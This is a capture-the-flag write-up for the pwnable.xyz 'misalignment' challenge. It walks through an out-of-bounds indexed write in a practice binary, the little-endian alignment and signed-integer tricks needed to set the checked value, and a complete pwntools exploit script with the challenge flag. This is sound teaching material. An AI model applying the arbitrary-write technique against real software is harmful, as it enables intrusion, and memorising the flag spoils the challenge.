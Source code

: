 # pwnable.xyz - misalignment
Link to binary: https://pwnable.xyz/redisfiles/challenge_24.gz

Description: *Try not using a debugger for this one.*
 
## binary
The binary is a **64-bit** ELF, with all the basic protections enabled.  
![](images/checksec.png)

## ./challenge
Running the binary doesn't output anything and just expects some input. Let's decompile with **IDA** to have a better look.

## IDA
### main()
![](images/main.png)

On a first glance, the program looks similar to the **add** challenge, but seems to require a basic understanding of alignment (thus the challenge name). It reads 3 long integer values from the user in the format of **"%ld %ld %ld"**, where the third value `s[6]` is used as an index to the `s[]` buffer, as seen in *line 11*: `s[s[6] + 7] = s[4] + s[5];` of the `main` function.

Similarly to the **add** challenge, we need to call the `win()` function which prints the flag. Specifically, the program checks if the value of `&s[1] + 7` is equal to `0xb000000b5`, as seen at *line 14*, and if true, it calls `win()`.

## vulnerability
The issue here lies in *line 11*, which allows for **arbitrary writes** through the `s[]` buffer, since we control the value of `s[6]` which is used as an **index**.

## attack plan
We need to write the value `0xb000000b5` at `s[1] + 7`.  

In x86_64 architecture, the data in memory is aligned in **qwords** which are **8 bytes** long and since this is **little-endian**, the first byte that we need to write in memory is `0xb5`. The alignment is an issue though, because the first byte must be written at `s[1] + 7` (which is the 8th byte of that qword) and the following bytes should be written at the next qword(s). So in order to write the correct value and at the correct place in memory we need to do **2 separate writes**.

* The first one will be the value `0xb500000000000000`, which will be written at bytes `s[1] + 7` through `s[1] + 0`
* The second one will be the value `0xb000000`, which will be written at bytes `s[2] + 7` through `s[2] + 4`.

So after these writes the memory should look like this:  

**s[2]:**
| | | | | b0 | 00 | 00 | 00 |
| :-----------: | :-----------: |  :-----------: | :-----------: | :-----------: | :-----------: |  :-----------: | :-----------: |
| 7 | 6 | 5 | 4 | 3 | 2 | 1 | 0 |

**s[1]:**
| b5 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| :-----------: | :-----------: |  :-----------: | :-----------: | :-----------: | :-----------: |  :-----------: | :-----------: |
| 7 | 6 | 5 | 4 | 3 | 2 | 1 | 0 |

We figured out **what** and **where** to write. The program accepts as input 3 long integers where the sum of the first two `s[4] + s[5]` is the value to be written and the third one increased by 7 `s[6] + 7` is the (arbitrary) index of the `s[]` buffer where the value will be written at.  

But there is still one problem.  
Long integer data type in C is 8-byte long (64 bits), which means that it has a value range of **-9,223,372,036,854,775,807** to **9,223,372,036,854,775,807**, if signed like in this case.  
The decimal value of `0xb500000000000000` is **13,042,424,520,864,956,416** which is too large to represent with a long signed integer.  

Luckily, we can use a negative value instead, causing an underflow. To calculate the correct value we can just use:  
`p 0 - 13042424520864956416` in gdb which gives a result of `5404319552844595200`.

Now if we try to print the negative of that value as hex:  
`p/x -5404319552844595200` we get `$1 = 0xb500000000000000`, so we verified that the value is correct.

## debugging
The description says to not use a debugger, but we're going to ***ch34t***.

First we send the following values:
`-5404319552844595200 0 -6`, where `-6` is the value of `s[6]`, so that we can write at  
`s[s[6] + 7] = s[-6 + 7] = s[1]`

Disassembling `main()` we see the instruction that writes the value:  
`<+182>:	mov    QWORD PTR [rbp+rax*8-0x98],rdx`  
where `rdx` contains the value to be written and `rax` is the index of the buffer (0 in this case).  

![](images/first_write.png)

Next, we send `184549376 0 -5`, where `184549376` is the decimal value of `0xb000000` and `-5` allows us to write at `s[2]`.  

![](images/second_write.png)

Now we only need to send an invalid input to exit the while loop and we get the flag.

## exploit
```python  
#!/usr/bin/python
from pwn import *

elf = context.binary = ELF("./challenge", checksec=False)
context.terminal = ['alacritty', '-e']
context.encoding = 'ascii'
context.gdbinit = '~/.config/gdb/.gdbinit'

gs = \
'''
b *main+51
b *main+221
'''

IP = "svc.pwnable.xyz"
PORT = 30003

def start(logging='notset'):
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote(IP, PORT, level=logging)
    else:
        return process(elf.path, level=logging)

def pwn():
    io = start()
    io.sendline("-5404319552844595200 0 -6")
    io.sendline("184549376 0 -5")
    io.sendline("\0")
    print(io.recvall())

if __name__ == "__main__":
    pwn()
```

`FLAG{u_cheater_used_a_debugger}`
  
\>.>